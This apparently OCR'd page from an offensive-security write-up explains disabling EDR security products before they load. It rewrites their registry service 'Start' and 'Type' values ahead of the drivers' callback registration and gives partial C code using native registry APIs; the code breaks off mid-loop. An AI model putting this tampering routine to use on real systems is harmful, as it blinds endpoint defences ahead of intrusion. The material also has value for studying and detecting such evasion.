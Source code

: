 Drivers and services have their "registration" present in the registry. A better approach would be to tamper with these registry keys during our application and change their "Start" and "Type" values to 0x4 (Disabled) and 0x10 (Win32 own process), respectively, so that their services do NOT start. We maintain an arrray of known EDR service/driver names (additional information can be found from the publicly available MSDN Allocated Filter Altitudes list). We can then iterate through all the registry entries under "CurrentControlSet\Services" and if any of the service names match our hardcoded array, we can update the aforementioned values.

When their drivers are running, EDRs leverage the CmRegisterCallbackEx function to receive registry request information, allowing them to prevent any modification/manipulation of their registry keys. However, as mentioned several times before, as their driver is not running and their callbacks are not registered before Win32 subsystem initialization, they cannot veto our changes!

```c
static const WCHAR* services[] = { L"Vendor", L"VendorDriver" };

static const WCHAR ServicesPath[] = L"\\Registry\\Machine\\SYSTEM\\CurrentControlSet\\Services";

NTSTATUS SetDwordValue(HANDLE KeyHandle, PCWSTR ValueName, ULONG Value) {
    UNICODE_STRING valName;
    RtlInitUnicodeString(&valName, ValueName);
    return NtSetValueKey(KeyHandle, &valName, 0, REG_DWORD, &Value, sizeof(Value));
}

NTSTATUS DisableServices() {
    UNICODE_STRING servicesKeyName;
    RtlInitUnicodeString(&servicesKeyName, ServicesPath);

    OBJECT_ATTRIBUTES oa;
    InitializeObjectAttributes(&oa, &servicesKeyName, OBJ_CASE_INSENSITIVE, NULL, NULL);

    HANDLE hServices;
    NTSTATUS status = NtOpenKey(&hServices, KEY_READ, &oa);
    if (!NT_SUCCESS(status)) return status;

    ULONG index = 0;

    for (;;) {
        BYTE* buffer = NULL;
        PWCH fullBuf = NULL;
        BOOLEAN present = FALSE;

        buffer = (BYTE*)RtlAllocateHeap(g_Heap, 0, 4096);
        if (!buffer) {
            status = STATUS_NO_MEMORY;
            goto service_cleanup;
        }

        PKEY_BASIC_INFORMATION kbi = (PKEY_BASIC_INFORMATION)buffer;
        ULONG retLen = 0;

        status = NtEnumerateKey(hServices, index, KeyBasicInformation, kbi, 4096, &retLen);
        if (!NT_SUCCESS(status) || status == STATUS_NO_MORE_ENTRIES) {
            goto service_cleanup;
        }

        USHORT serviceNameLen = (USHORT)kbi->NameLength;
        USHORT charsCount = serviceNameLen / sizeof(WCHAR);
        if (charsCount > 259) charsCount = 259;
        WCHAR serviceNameBuf[260];
        memcpy(serviceNameBuf, kbi->Name, charsCount * sizeof(WCHAR));
        serviceNameBuf[charsCount] = L'\0';

        for (int i = 0; i < (int)(sizeof(services) / sizeof(services[0])); i++) {
            if (_wcsicmp(serviceNameBuf, services[i]) == 0) {
```